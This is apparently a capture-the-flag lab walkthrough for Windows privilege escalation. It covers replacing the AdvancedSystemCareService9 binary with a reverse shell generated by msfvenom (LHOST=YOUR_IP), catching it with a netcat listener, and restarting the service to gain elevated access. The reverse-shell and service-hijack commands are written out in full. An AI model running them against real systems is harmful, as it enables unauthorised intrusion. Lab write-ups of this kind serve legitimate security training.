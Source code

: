 ```searchsploit 34926 -p```
> To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:

> Answer: No answer needed

After waiting some time you will get a long list of results. The one we are specifically looking for is one where the service can be restarted.


> Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

> Answer: AdvancedSystemCareService9

![Can Restart](task3_CanRestart.png)

Now that we know the service the next thing to do is to create an msfvenom shell. Back on your desktop open a new terminal and type in ```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=1234 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe```

![MSFvenom](task3_msfvenom.png)

{{% notice style="note" %}}
Learn more about **msfvenom**:

- [Metasploit Unleashed by Offsec](https://www.offsec.com/metasploit-unleashed/msfvenom/)
- [Msfvenom Tutorials for Beginners](https://www.hackingarticles.in/msfvenom-tutorials-beginners/)
- [Working with Payload Metasploit in Kali Linux by Geeks for Geeks](https://www.geeksforgeeks.org/working-with-payload-metasploit-in-kali-linux/)
{{% /notice %}} 

In a new terminal or clear your existing one we want to start a [Netcat listener](https://blog.natem135.com/posts/using-a-netcat-listener/) on the same port as your specified msfvenom shell - port 1234.

![NC Listener](task3_NC_Listener.png)

Moving back to your Meterpreter shell use ```Ctrl+C``` to exit powershell and ```cd``` to **"C:\Program Files (x86)\IObit\Advanced SystemCare"**. 

Once in the Advanced systemCare directory you will want to type ```shell``` to get a regular command shell. Then you can stop the AdvancedSystemCareService9 service with ```sc stop AdvancedSystemCareService9```. If you try to upload your shell before stopping the service you will get an error. 

![Stop service](task3_Shell_Service_Stop.png)

Once the service is stopped we can upload our shell with the same upload command as before, but make sure you type ```^c``` to get back to a Meterpreter shell first. 

![Upload shell](task3_msfvenom_Upload.png)

Once uploaded type ```shell``` again and start the service with ```sc start AdvancedSystemCareService9```.

![Start service](task3_Shell_Service_Start.png)

> Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.
>
> Note: The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead.

> Answer: No answer needed
```